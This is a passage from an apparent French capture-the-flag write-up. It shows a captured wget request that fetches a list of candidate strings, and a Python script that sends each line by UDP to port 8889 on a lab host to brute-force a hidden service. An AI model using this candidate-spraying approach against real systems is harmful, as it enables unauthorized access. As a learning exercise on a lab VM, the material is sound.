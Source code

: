 ```http
GET /answer.txt HTTP/1.1
User-Agent: Wget/1.14 (linux-gnu)
Accept: */*
Host: 192.168.78.1
Connection: Keep-Alive

HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 22:51:26 GMT
Server: Apache/2.4.27 (Win32) OpenSSL/1.0.2l PHP/7.0.22
Last-Modified: Tue, 21 Jul 2020 22:49:32 GMT
ETag: "16b-5aafb6fce9821"
Accept-Ranges: bytes
Content-Length: 363
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/plain

HUY65476jkru
6IJU56S$reWUhyw
i7&%iU%e^IUJ57
i6uy%$#YHG45y
879O&*^yOI76
y354YW$5$
i67iU%^&ui
u4y5y%$yt4
o678i76u67ir
53Y$%wuy%^UI%&I
o876IO&IUW$^UYW$6
75i%&EIUE%^U%E
&^I%&I4r5e
rehytryu
ytuRTUYRTUy
ryTURTUTYUI%
etuhyRJTYu
56iu56i57tyi5ujkdyt
tjuI&^UI46
u56ujryik7ti86rytujd
uj46rUJI^57%^&YUjsET^HUYf
iu65uj56ri756ijytjkit7ud
jtrsUIJ^%URDJ65
```

Le port 8991 mentionné dans le message ne semble pas en écoute sur le système mais il y en a un qui ressemble : 8889.

De toute façon, il suffit de les essayer :) J'ai écrit ce code Python qui envoie chaque ligne via un datagram UDP.

```python
import socket
from time import sleep

UDP_IP = "192.168.242.133"
UDP_PORT = 8889

with open("words.txt", "rb") as fd:
    for line in fd:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        sock.sendto(line, (UDP_IP, UDP_PORT))
        sleep(.5)
```
